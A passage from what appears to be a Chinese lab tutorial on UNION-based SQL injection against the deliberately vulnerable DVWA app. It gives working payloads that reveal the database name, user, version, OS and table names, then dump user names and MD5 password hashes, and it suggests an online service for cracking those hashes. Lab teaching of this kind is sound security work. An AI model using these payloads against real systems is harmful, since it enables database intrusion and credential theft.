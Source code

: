 ![此处输入图片的描述](https://doc.shiyanlou.com/document-uid454817labid3179timestamp1499673110659.png)

通过上图返回信息，我们成功获取到：

- 当前网站使用数据库为 dvwa
- 当前执行查询用户名为 root@localhost

同理我们再输入 `1' union select version(),@@version_compile_os#`进行查询：

- version() 获取当前数据库版本.
- @@version_compile_os 获取当前操作系统。

实际执行的 SQL 语句是:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' union select version(),@@version_compile_os#`;
```

![此处输入图片的描述](https://doc.shiyanlou.com/document-uid454817labid3179timestamp1499673988773.png)

通过上图返回信息，我们又成功获取到：

- 当前数据库版本为 : 10.4.17-MariaDB-1:10.4.17+maria~xenial
- 当前操作系统为 : debian-linux-gnu

接下来我们尝试获取 dvwa 数据库中的表名。 `information_schema` 是 mySQL 自带的一张表，这张数据表保存了 MySQL 服务器所有数据库的信息,如数据库名，数据库的表，表栏的数据类型与访问权限等。该数据库拥有一个名为 tables 的数据表，该表包含两个字段 table_name 和 table_schema，分别记录 DBMS 中的存储的表名和表名所在的数据库。

我们输入`1' union select table_name,table_schema from information_schema.tables where table_schema= 'dvwa'#`进行查询。

实际执行的 SQL 语句是：

```bash
SELECT first_name, last_name FROM users WHERE user_id = '1' union select table_name,table_schema from information_schema.tables where table_schema= 'dvwa'#`;
```

![此处输入图片的描述](https://doc.shiyanlou.com/document-uid454817labid3179timestamp1499676499120.png)

通过上图返回信息，我们再获取到：

- dvwa 数据库有两个数据表，分别是 guestbook 和 users

有些同学肯定还不满足目前获取到的信息，那么我们接下来尝试获取重量级的用户名、密码。

由经验我们可以大胆猜测 users 表的字段为 user 和 password ，所以输入：`1' union select user,password from users#`进行查询。

实际执行的 SQL 语句是：

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' union select user,password from users#`;
```

![此处输入图片的描述](https://doc.shiyanlou.com/document-uid454817labid3179timestamp1499674683174.png)

可以看到成功爆出用户名、密码，密码采用 md5 进行加密，可以到`www.cmd5.com`进行解密。
